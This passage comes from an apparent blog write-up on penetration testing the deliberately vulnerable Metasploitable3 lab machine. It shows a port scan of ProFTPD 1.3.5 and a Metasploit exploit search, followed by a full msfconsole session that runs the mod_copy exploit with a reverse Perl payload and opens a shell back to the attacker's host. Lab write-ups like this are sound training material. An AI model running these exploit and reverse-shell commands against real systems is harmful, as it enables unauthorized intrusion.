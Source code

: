 ```
192.168.19.20  21    tcp    ftp          open    ProFTPD 1.3.5
```

A quick `msfconsole` search yeilded the following results:

```
exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
exploit/linux/ftp/proftp_sreplace            2006-11-26       great      ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    NetSupport Manager Agent Remote Buffer Overflow
exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  ProFTPD-1.3.3c Backdoor Command Execution
exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  ProFTPD 1.3.5 Mod_Copy Command Execution
```

I mucked around with a few of the exploits listed but did not get very far. All the exploits were at, or below, the version of ProFTPD on Metasploitable3 (version 1.3.5). I tried the last on the list, `proftpd_modcopy_exec`. 

```
msf > use exploit/unix/ftp/proftpd_modcopy_exec

msf exploit(unix/ftp/proftpd_modcopy_exec) > set rhost 192.168.19.20
rhost => 192.168.19.20

msf exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html
sitepath => /var/www/html

msf exploit(unix/ftp/proftpd_modcopy_exec) > set exploit cmd/unix/reverse_perl
exploit => cmd/unix/reverse_perl

msf exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.19.10:4444 
[*] 192.168.19.20:80 - 192.168.19.20:21 - Connected to FTP server
[*] 192.168.19.20:80 - 192.168.19.20:21 - Sending copy commands to FTP server
[*] 192.168.19.20:80 - Executing PHP payload /jjIRB1.php
[*] Command shell session 4 opened (192.168.19.10:4444 -> 192.168.19.20:47618) at 2018-07-07 23:21:25 -0400
```

This exploit gained remote access as the `www-data` user. This was not very useful, as the UnrealIRCd exploit gained a higher level of access. Moving on!

## Port 80: Drupal

In my previous post ([Pentesting Metasploitable3 using SQL Injection]({% post_url 2018-07-08-metasploitable3-pentesting-the-ubuntu-linux-version-part1 %})), I investigated the Apache web server running on port 80. In the directory listing provided by the web server was a Drupal install.
